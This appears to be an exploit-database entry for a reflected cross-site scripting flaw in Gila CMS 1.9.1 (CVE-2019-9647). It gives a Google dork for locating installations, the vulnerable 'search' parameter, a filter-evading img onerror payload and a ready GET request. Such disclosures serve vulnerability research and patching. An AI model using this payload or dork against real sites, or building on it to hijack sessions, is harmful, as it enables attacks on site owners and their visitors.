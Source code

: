 XSS
---

    # Exploit Title: Gila CMS (search) Cross Site Scripting
    # Google Dork: intext:"Powered By Gila CMS"
    # Date: 11.03.2019
    # Exploit Author: Ahmet Ümit BAYRAM
    # Vendor Homepage: https://gilacms.com
    # Software Link: https://gilacms.com/packages/downloadRelease/1.9.1.zip
    # Demo Site: https://gilacms.com/demo/
    # Version: 1.9.1
    # Tested on: Kali Linux
    # CVE: CVE-2019-9647

    # Vulnerable Parameter: search

    # Payload: <--`<img/src=` onerror=confirm``> --!>

    # GET Request: http://localhost/?search=<--`<img/src=` onerror=confirm``> --!>

